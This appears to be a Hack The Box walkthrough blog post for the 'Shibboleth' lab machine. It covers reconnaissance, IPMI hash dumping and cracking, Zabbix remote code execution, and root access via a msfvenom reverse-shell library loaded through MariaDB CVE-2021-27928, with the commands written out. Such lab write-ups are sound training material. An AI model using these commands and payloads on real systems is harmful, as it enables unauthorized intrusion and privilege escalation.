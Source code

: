 ```yaml
---
layout: single
title: Shibolleth - Hack The Box
date: 2022-04-25
excerpt: "Shibboleth is a medium difficulty Linux machine featuring IPMI and Zabbix software. IPMI authentication is
found to be vulnerable to remote password hash retrieval. The hash can be cracked and Zabbix access can
be obtained using these credentials. Foothold can be gained by abusing the Zabbix agent in order to run
system commands. The initial password can be re-used to login as the ipmi-svc and acquire the user flag.
A MySQL service is identified and found to be vulnerable to OS command execution. After successfully
exploiting this service a root shell is gained."
header:
  teaser: /assets/img/shibolleth/cover.png
  teaser_home_page: true
  icon: /assets/htb.png
categories:
  - hackthebox
  - infosec
tag:
    - UDP
    - IPMI
    - Zabbix
    - MariaDB
    - RCE
    - CVE-2021-27928
---
```


![](/assets/img/shibolleth/cover.png)

## Synopsis

Shibboleth is a medium difficulty Linux machine featuring IPMI and Zabbix software. IPMI authentication is
found to be vulnerable to remote password hash retrieval. The hash can be cracked and Zabbix access can
be obtained using these credentials. Foothold can be gained by abusing the Zabbix agent in order to run
system commands. The initial password can be re-used to login as the ipmi-svc and acquire the user flag.
A MySQL service is identified and found to be vulnerable to OS command execution. After successfully
exploiting this service a root shell is gained.

## Portscan

```powershell
PORT   STATE SERVICE
80/tcp open  http
|_http-title: Did not follow redirect to http://shibboleth.htb/
```

## Reconaissance

### HTTP

added new shibboleth.htb into hosts file, because only port 80 is open.

![](/assets/img/shibolleth/1.png)

then i use feroxbuster to scan directory

feroxbuster result:

```bash
 🎯  Target Url            │ http://shibboleth.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET     1323l     4114w    59474c http://shibboleth.htb/
301      GET        9l       28w      317c http://shibboleth.htb/assets => http://shibboleth.htb/assets/
301      GET        9l       28w      316c http://shibboleth.htb/forms => http://shibboleth.htb/forms/
403      GET        9l       28w      279c http://shibboleth.htb/server-status
```

inside /get we only see two files

![](/assets/img/shibolleth/2.png)

README.txt

```
Fully working PHP/AJAX contact form script is available in the pro version of the template.
You can buy it from: https://bootstrapmade.com/flexstart-bootstrap-startup-template/
```

contact.php

```
Unable to load the "PHP Email Form" Library!
```

it seems that these two files are the defaults of the template, continuing the process for fuzzing sub domain with `ffuf`

```bash
ffuf -c -u http://shibolleth.htb -w /usr/share/seclists/Discover/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.shibolleth.htb" -fw 18
```

![](/assets/img/shibolleth/3.png)

added new sub domains into hosts file again, accessing this page [zabbix](http://zabbix.shibboleth.htb/) will find login page

![](/assets/img/shibolleth/4.png)

find a lot of exploit too using `searchsploit`

![](/assets/img/shibolleth/5.png)

basically what is zabbix, in short zabbix is open source monitoring software tool, including networks, servers, VM, and cloud services. Zabbix also provides monitoring metrics such as network utilization, CPU load and disk space consumpution.

already tried admin:admin on login page without any luck, because to carry out the exploitation requires credentials. Back to the initial stage of scanning on UDP using nmap.

```
nmap -sU $ip
```

result of nmap 

```bash
PORT    STATE SERVICE
623/udp open  asf-rmcp
```

according on [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi#vulnerability-ipmi-2.0-rakp-authentication-remote-password-hash-retrieval) we able to dump hash from rmcp using metasploit.

in metasploit we should use the ipmi module with following setup:

```
use scanner/ipmi/ipmi_dumphashes
set output_hashcat_file yes
set rhost ip-shibolleth
```

execute command `run` will obtain hashes for administrator user

![](/assets/img/shibolleth/8.png)

that hash use algorithm SHA1 then run `hashcat` with modul 7300

```
hashcat -a 0 -m 7300 hash /usr/share/wordlists/rockyou.txt
```

![](/assets/img/shibolleth/9.png)

```
Administrator:ilovepumkinpie1
```

back to zabbix and use this credentials

![](/assets/img/shibolleth/10.png)

as you can see we able to logged in, now this zabbix version is 5.0 with affected of RCE vulnerability.
you can grab public exploit in [here](https://www.exploit-db.com/exploits/50816)

execute this command below will gain acess into system

```python
python 50816.py http://monitoring.shibboleth.htb/ Administrator ilovepumkinpie1 10.10.14.8 9000
```

![](/assets/img/shibolleth/11.png)

## Privilege Escalation

password reuse for user ipmi-svc, and on enumeration i managed to find the configuration file

![](/assets/img/shibolleth/12.png)

read the configuration file and find the credentials for Maria Database

```bash
### Option: DBHost
# DBHost=localhost
### Option: DBName
# DBName=

DBName=zabbix
### Option: DBSchema
# DBSchema=
### Option: DBUser
# DBUser=
DBUser=zabbix

### Option: DBPassword
DBPassword=bloooarskybluh

### Option: DBSocket
# DBSocket=
### Option: DBPort
```

mysql service running locally on port 3306 by default, lets dump it

![](/assets/img/shibolleth/13.png)

get the information from table users

![](/assets/img/shibolleth/14.png)

thats hash didnt show me the way, so the thing is we had to exploit the mysql version

![](/assets/img/shibolleth/15.png)

this MariaDB version affected of CVE-2021-27928, you can read the poc in [here](https://github.com/Al1ex/CVE-2021-27928).

create the payload using `msfvenom` and upload into target in /tmp folder

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=9002 -f elf-so -o CVE-2021-27928.so
```

makesure listener ready and execute command below will lead you into root system

```
mysql -u zabbix -pbloooarskybluh -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so"';
```

![](/assets/img/shibolleth/16.png)

### REFERENCESS
```text
https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi
http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm
https://netsec.ws/?p=337
https://hashcat.net/wiki/doku.php?id=example_hashes
```